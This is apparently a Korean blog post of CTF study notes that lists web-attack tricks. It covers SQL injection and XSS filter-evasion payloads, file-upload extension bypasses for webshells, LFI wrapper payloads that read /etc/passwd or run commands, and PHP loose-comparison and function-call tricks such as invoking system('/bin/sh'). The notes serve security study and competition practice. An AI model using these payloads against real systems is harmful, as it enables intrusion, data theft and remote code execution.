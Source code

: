 ```yaml
---
layout: post
title: "Web trick(bypass) for CTF "
excerpt: "Try to know trick & use it ~_~"
date: 2020-11-21
categories: [Web]
comments: true 
---
```


이번에는 ctf를 위한 다양한 웹 트릭 및 우회방법들을 간단하게나마 정리를 해보려고한다. 

<h3>0x0. SQLI bypass </h3>

```
+로 우회  ex)'+or+1=1
/**/주석으로 우회 ex)'/**/or/**/1=1
#주석으로 우회 ex)'#%0aor#%0a1=1
--주석으로 우회
Tab으로 우회 ex)'%09or%091=1
Line Feed로 우회 ex)'%0aor%0a1=1
괄호로 우회 ex)(2)or(1=1)
Carrage Return으로 우회 ex)'%0dor%0d1=1
%0b,%a0,%0c ~~
' > "  ex) " or 1=1
' > \ ex) \ or 1=1 
;00으로 우회
substr > substring으로 변경 / mid로 우회
ascii >  ord나 hex , char, unhex등 이용
= > LIKE등으로 변경
load_file/*test*/(0x~~)
concat() ,alias 이용
uNiOn AlL SeLecT등의 케이스 이용
1+uni*on+sel*ect+1,3--+- 등 특수문자 이용
id=1&id=*/union/*&id=*/select/*&id=*/1,2+--+ HPP 이용
(select 0xAAAAAAAAAAAAAAAA ..... A's) bof를 이용
```



<h3>0x1. File upload bypass</h3>

```
.php > phtml. pHp, php.suspected, .php3, .htm, .php%00.png , .php/, .php.\ 
.asp > .cer, .asa, .cdx, .AsP, .asp%00.jpg
.jsp > .jsw, .jsv, .jspx, .war, .JsP, .jsp%00.png, .js%70, .%22jsp 
.htaccess변조 및 업로드 > AddHandler text/html .php .png 등등
GIF89a; 등을 이용하여 GIF로 위조
이미지 파일에 쉘코드 삽입 등등
gif to xss/csrf 등등 
파일명에 페이로드 삽입 ex) <script>alert(1)</script>.jpg
```



<h3>0x2. LFI bypass</h3>

```
php wrappers > php?page=expect://ls , php://input&cmd=ls , php://filter/convert.base64-encode/resource=/etc/passwd 
zip wrappers > php?page=zip://path/to/file.zip#sh
null byte > php?page=/etc/passwd%00 , page=/etc/passwd%2500
```



<h3>0x3. XSS bypass</h3>

```
javas%09cript:alert , param=test`-alert(1)=`def';
param=test'&&'http://naver.com';
.을 필터링 > document['cookie']
;나 + 필터링 > 'test'-alert(1)-'def'
""를 필터링 > eval[alert(1)]
native function 필터링 > alert;a(1) 
```



<h3>0x4. php trick</h3>

```
== 연산자의 느슨함을 이용한 트릭
```

| ==           | true  | false | 1     | 0     | -1    | "1"   | "0"   | "-1"  | null  | array() | array(1) | array("php") | "php" | ""    | NAN   |
| ------------ | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ------- | -------- | ------------ | ----- | ----- | ----- |
| true         | true  | false | true  | false | true  | true  | false | true  | false | false   | true     | true         | true  | false | true  |
| false        | false | true  | false | true  | false | false | true  | false | true  | true    | false    | false        | false | true  | false |
| 1            | true  | false | true  | false | false | true  | false | false | false | false   | false    | false        | false | false | false |
| 0            | false | true  | false | true  | false | false | true  | false | true  | false   | false    | false        | true  | true  | false |
| -1           | true  | false | false | false | true  | false | false | true  | false | false   | false    | false        | false | false | false |
| "1"          | true  | false | true  | false | false | true  | false | false | false | false   | false    | false        | false | false | false |
| "0"          | false | true  | false | true  | false | false | true  | false | false | false   | false    | false        | false | false | false |
| "-1"         | true  | false | false | false | true  | false | false | true  | false | false   | false    | false        | false | false | false |
| null         | false | true  | false | true  | false | false | false | false | true  | true    | false    | false        | false | true  | false |
| array()      | false | true  | false | false | false | false | false | false | true  | true    | false    | false        | false | false | false |
| array(1)     | true  | false | false | false | false | false | false | false | false | false   | true     | false        | false | false | false |
| array("php") | true  | false | false | false | false | false | false | false | false | false   | false    | true         | false | false | false |
| "php"        | true  | false | false | true  | false | false | false | false | false | false   | false    | false        | true  | false | false |
| ""           | false | true  | false | true  | false | false | false | false | true  | false   | false    | false        | false | true  | false |
| NAN          | true  | false | false | false | false | false | false | false | false | false   | false    | false        | false | false | false |

```
magic hash를 이용한 트릭 > 
"0e1354" == "0e87453" // true
"0" == "0e7124511451155" //true
"0" == md5("240610708") // true
"0" == sha1("w9KASOk6Ikap") // true
md5("QLTHNDT") == md5("QNKCDZO") // true

.을 이용한 함수 호출 > "sy"."stem"('/bin/sh');
<? <?php 이외에 php 선언 > <script language='php'>
백쿼터(`)를 이용한 함수 호출 > echo `ls`;를 하면 system('ls')과 같음
17자리가 넘는 두 수를 비교하면 미세한 차이는 무시
함수를 문자열로 호출> "phpinfo();"
아파치는 다중 확장자 가능 >  webshell.php.test는 정상 작동
대괄호 없이 배열에 접근 > ${${$variables{0}}{0}}();등의 형태를 통해서 가능
strip_tags 함수의 트릭 > strip_tags("<a/udio>") >  a 태그로 인식
젠드엔진에 의한 타입 캐스팅
언더바 우회 > __main__같은걸 호출할때 .main. , %20main%20 등으로 우회 가능
system 함수 필터링 > exec(), shell_exec(), passthru() 등으로 웹쉘
parse_url등의 url을 파싱하는 함수> ssrf 등으로 연계 가능
```

계속해서 ctf나 공부를 하면서 얻는 지식들을 정리할 예정